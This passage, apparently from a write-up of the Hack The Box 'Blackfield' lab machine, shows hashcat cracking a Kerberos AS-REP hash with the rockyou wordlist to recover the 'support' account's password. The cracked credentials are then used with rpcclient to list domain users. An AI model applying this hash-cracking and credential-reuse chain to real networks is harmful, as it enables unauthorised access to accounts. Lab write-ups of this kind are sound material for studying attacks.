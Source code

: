 ```
Rules: 1
...
...
...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5asrep$23$support@BLACKFIELD.LOCAL:06d8731e38f1df329fca9472d1c401d1$370b735a62e04596ecb1314328537410c072db996557c731c5e1bb4fd3ce9cdb
0edf2e1c3e62ec133065302e2f9f71b315586c68a0c80e68925d27a350ba9c4165e5485089fb43db2ebad7838948de7d0d1bfda6605b89abf1bcab713cb369b008bff277
3e36bf6a90594b25d9e4e43339d28e8b3e00ab82063eddeca36716411baa48b31e1d3926a42febed1906fe340f49ef0332946f9e031ba291d8b159f3765433e67ee47695
652a7c6d13b7c22c450d73d63198023030a4ca2c0db2ce86b4f73d1bc3f74c2449021e66d4e976007500211fd6cf587a5ee10047b6eb650afda5a4e059c2aab86f4e4fd6
ff70b93d6f49af71:#00^BlackKnight
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$support@BLACKFIELD.LOCAL:06d8731e38f1...49af71
Time.Started.....: Fri Oct  2 18:49:17 2020, (33 secs)
Time.Estimated...: Fri Oct  2 18:49:50 2020, (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   444.9 kH/s (11.43ms) @ Accel:32 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 14336000/14344385 (99.94%)
Rejected.........: 0/14336000 (0.00%)
Restore.Point....: 14327808/14344385 (99.88%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $Cah$ -> #!hrvert

Started: Fri Oct  2 18:48:48 2020
Stopped: Fri Oct  2 18:49:51 2020
```
Great let's save these credentials, support:#00^BlackKnight<br>
Now we can enumerate smb and rpc with these creds<br>
```shell
sid@kali:~$ rpcclient -U 'support' 10.10.10.192                                                                                                         1 ⨯
Enter WORKGROUP\support's password: 
rpcclient $> enumdomusers 
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[audit2020] rid:[0x44f]
user:[support] rid:[0x450]
user:[BLACKFIELD764430] rid:[0x451]
user:[BLACKFIELD538365] rid:[0x452]
user:[BLACKFIELD189208] rid:[0x453]
user:[BLACKFIELD404458] rid:[0x454]
...
...
user:[BLACKFIELD307633] rid:[0x57e]
user:[BLACKFIELD758945] rid:[0x57f]
user:[BLACKFIELD541148] rid:[0x580]
user:[BLACKFIELD532412] rid:[0x581]
user:[BLACKFIELD996878] rid:[0x582]
user:[BLACKFIELD653097] rid:[0x583]
```